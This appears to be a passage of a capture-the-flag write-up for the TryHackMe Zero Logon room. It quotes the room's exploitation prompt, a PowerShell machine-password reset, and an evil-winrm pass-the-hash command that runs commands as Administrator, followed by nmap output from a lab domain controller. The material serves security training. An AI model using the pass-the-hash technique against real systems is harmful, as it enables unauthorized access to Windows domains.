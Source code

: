 **Time to Play -**

Now that you've learned about Zero Logon, it's time to put your new found skills to the test and exploit this vulnerable Domain Controller!

**Ctrl+Z -**

After you get done, if you want to play around some more, instead of terminating the machine, you can simply issue the following command to reset the machine back to it's original state:

```ps1
powershell.exe -c 'Reset-ComputerMachinePassword'
```

If you're confused on how to issue the command, you can simply Pass The Local Admin Hash with Evil-WinRM to gain command execution. You can do so with the following command:

```
evil-winrm -u Administrator -H <Local Admin Hash> -i <Machine IP>
```

```
(impacketEnv) kali@kali:~/CTFs/tryhackme/Zero Logon$ nmap -sV -sC 10.10.162.183
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-30 15:22 CET
Nmap scan report for 10.10.162.183
Host is up (0.040s latency).
Not shown: 987 closed ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Holo.Live
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-10-30 14:22:17Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hololive.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: hololive.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HOLOLIVE
|   NetBIOS_Domain_Name: HOLOLIVE
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: hololive.local
|   DNS_Computer_Name: DC01.hololive.local
|   Product_Version: 10.0.17763
|_  System_Time: 2020-10-30T14:24:34+00:00
| ssl-cert: Subject: commonName=DC01.hololive.local
| Not valid before: 2020-09-19T17:58:40
|_Not valid after:  2021-03-21T17:58:40
|_ssl-date: 2020-10-30T14:24:49+00:00; +1s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=10/30%Time=5F9C219D%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version
SF:\x04bind\0\0\x10\0\x03");
```